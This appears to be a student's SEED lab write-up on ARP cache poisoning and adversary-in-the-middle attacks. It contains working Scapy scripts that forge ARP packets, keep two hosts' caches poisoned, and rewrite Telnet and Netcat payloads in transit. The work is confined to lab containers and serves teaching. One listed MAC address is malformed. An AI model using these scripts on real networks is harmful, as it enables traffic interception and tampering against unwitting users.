






# AiM Lab 2
#### In this Lab the goal is to launch a Adversary in the Middle attack by performing ARP cache poisoning attacks
## Step 1: Setting all up for the simulation
A pre-built SEED Ubuntu 20.04 Virtual Desktop Infrastructure was downloaded from seedsecuritylabs.org and runned on Virtual Box


3 docker containers from Labsetup.zip were run



Running ifconfig on all 3 containers we can see that:

IP-A = 10.9.0.5   MAC-A = 02:42:0a:09:00:05

IP-B = 10.9.0.6   MAC-B = 02:42:0a:09:00:105

IP-M = 10.9.0.105   MAC-M = 02:42:0a:09:00:69
## Task 1: ARP Cache Poisining
The point of this task is to use packet spoofing to launch an ARP cache poisoning attack in order to make the target send packets to the attacker instead of the wanted destination.

To archieve this the python lib called scapy was used to forge ARP packets
### 1.A
The host M using an ARP request forces an IP-MAC mapping in A cache, with IP-B associated to MAC-M

#### Python script:

```py
#!/usr/bin/env python3
from scapy.all import*

E = Ether()
E.dst = "02:42:0a:09:00:05"         ## To MAC-A
A = ARP()
A.psrc = "10.9.0.6"                 ## From IP-B
A.pdst = "10.9.0.5"                 ## To IP-A

A.op = 1                            ## Request

pkt = E/A
sendp(pkt)
```

A Chache after sending the forged ARP request:



We can observe that IP-B is mapped to MAC-M
### 1.B
The Host constructs an ARP reply with IP-B mapped to MAC-M in 2 scenarios:
1. with IP-B already in A cache:

    

The attack is succesful, the scrypt is the same from above but with ```A.op = 2 ## Reply```

2. with empty A cache
The attack is not succesful, the arp reply is dropped
### 1.C
The Host constructs an ARP gratuitous packet with IP-B mapped to MAC-M in the same 2 scenarios as 1.B:
1. with IP-B already in A cache:


The attack is succesful
#### Python script:
```py
#!/usr/bin/env python3
from scapy.all import*

E = Ether()
E.dst = "ff:ff:ff:ff:ff:ff"     ## Broadcast
A = ARP()
A.psrc = "10.9.0.6"
A.hwdst = "ff:ff:ff:ff:ff:ff"   ## Broadcast

A.op = 1                        ## Request

pkt = E/A
sendp(pkt)
```
2. with empty A cache
The attack is not succesful, the ARP gratuitous packet is dropped
## Task 2: AiM Attack on Telnet using ARP Cache Poisoning
### Step 1: ARP poisoning loop:
Since it is wanted that the ARP cache of A and B to stay poisoned, a python script was written to loop the ARP poisoning from task 1 every 5 s:
```py
  ## A ARP poisoning
  E = Ether()
  E.dst = "02:42:0a:09:00:05"
  A = ARP()
  A.psrc = "10.9.0.6"
  A.pdst = "10.9.0.5"
  A.op = 1
  pkt = E/A
  sendp(pkt)
  
  ## B ARP poisoning
  E = Ether()
  E.dst = "02:42:0a:09:00:06"
  A = ARP()
  A.psrc = "10.9.0.5"
  A.pdst = "10.9.0.6"
  A.op = 1 
  pkt = E/A
  sendp(pkt)
  
  time.sleep(5)
```
### Step 2: Testing

##### A pings B without IP fowarding


It can be observed that:
1. the packets 1 and 3 are the ARP poisoning
2. A sends an Echo request to 10.9.0.6
3. No response is sent by B because it never recived the echo request, since it was directed to M
##### A pings B with IP fowarding


It can be observed that:
1. A sends an echo request to IP-B (to MAC-M)
2. M fowards the echo request to IP-B
3. M recives echo response from IP-B to IP-A
4. M fowards the echo response to A
1. IP fowarding turned on
2. Let A and B enstablish a connection with telnet
3. Turn IP fowarding off
4. Intercept and modify the packet replacing all characters with Z's

#### Python script used:
```py
#!/usr/bin/env python3
from scapy.all import *

IP_A = "10.9.0.5"
IP_B = "10.9.0.6"
MAC_A = "02:42:0a:09:00:05"
MAC_B = "02:42:0a:09:00:06"
M_MAC = "02:42:0a:09:00:69"

def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:             # A ---> B
        newpkt = Ether(dst=MAC_B)/pkt[IP].copy()                # Rewrite MAC destination
        del(newpkt[IP].chksum)                                  # Delete checksum to avoid dropping
        del(newpkt[TCP].chksum)                                 # Scapy will rewrite thoose
        if pkt[TCP].payload:
            data = pkt[TCP].payload.load
            newdata = b"Z" * len(data)                          # Sobstitute anything with Z's
            del(newpkt[TCP].payload)                            # Drop old payload
            sendp(newpkt/newdata, iface='eth0', verbose=False)  # Load new payload
        else: 
            sendp(newpkt, iface='eth0', verbose=False)
            
    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:           # B ---> A
        newpkt = Ether(dst=MAC_A)/pkt[IP].copy()                # Rewrite MAC destination
        del(newpkt[IP].chksum)
        del(newpkt[TCP].chksum)
        sendp(newpkt, iface='eth0', verbose=False)              # Foward with no modifications

f = f'tcp and not ether src {M_MAC}'                            # Avoid capturing and resanding M packets
sniff(iface='eth0', filter=f, prn=spoof_pkt)                    # Listen on eth0
```
## Step 5: AiM Attack on Netcat
Similarly to Task 2 Netcat Packets from A to B will be intercepted and modifyed by M, the script is the same as before exept for the payload sobstitution:

```py
...
olddata1 = b"Gabriele"
newdata1 = b"AAAAAAAA"
olddata2 = b"Gabdalf: Mi raccomando Frodo, porta l'anello al Monte Fato!"
newdata2 = b"Gabdalf: Mi raccomando Frodo, porta l'anello a Sauron!     "
del(newpkt[TCP].payload)                            # Drop old payload
if olddata1 in payload:
    newdata = payload.replace(olddata1, newdata1)
elif olddata2 in payload:
    newdata = payload.replace(olddata2, newdata2)
...
```


It is needed to keep the same pkt lenght in order to have the same sequence number, i archieved this by adding the right amount of spaces.

